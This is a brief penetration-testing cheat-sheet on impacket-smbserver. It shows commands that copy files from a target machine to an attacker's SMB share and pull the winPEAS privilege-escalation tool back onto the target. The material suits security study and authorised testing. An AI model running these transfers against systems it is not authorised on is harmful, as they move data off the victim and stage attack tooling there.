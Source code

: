 ```yaml
---
tags:
---
```

# smbserver

Quick SMB server to upload and download files

## Capabilities

```bash
# Setup SMB server
sudo impacket-smbserver -smb2support share $(pwd)
```

Interact with the SMB server from the target's machine

```powershell
# Move file from target to attack box
cp target_file.txt \\192.168.1.18\share\target_file.txt

# Move file from attack box to target
cp \\192.168.1.18\share\winPEASany.exe winPEAS.exe
```
